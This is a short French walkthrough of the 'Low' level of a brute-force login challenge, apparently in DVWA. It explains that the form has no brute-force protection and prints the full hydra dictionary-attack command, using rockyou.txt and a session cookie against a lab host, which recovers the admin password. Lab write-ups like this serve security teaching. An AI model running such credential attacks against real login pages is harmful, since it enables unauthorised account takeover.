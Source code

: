 # Niveau "Low"

Le challenge nous présente l'équivalent d'une mire d'authentification :

![](../../../../.gitbook/assets/754b2c241667e45c33ef2f42f51e09f2.png)

Après un certain nombre de tentatives, il est évident que l’application n’implémente aucune protection contre les attaques de type brute force.

On utilise alors  `hydra` afin de retrouver le mot de passe de l'administrateur en utilisant une attaque par dictionnaire avec le fichier `rockyou.txt` (fichier disponible sur Kali) :

![](../../../../.gitbook/assets/a64aa6f881e7695546747388c1f9f874.png)

Etant pas très lisible sur l'impression écran, voici la commande utilisée :

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.203 -s 8080 http-form-get "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=jnh28vv1muneunmmbffhn25c45; security=low;"`

Brute force réussit, le mot de passe de l'administrateur est présent dans notre dictionnaire :

![](../../../../.gitbook/assets/5ff11daad3b3614252032592c5b7b93a.png)
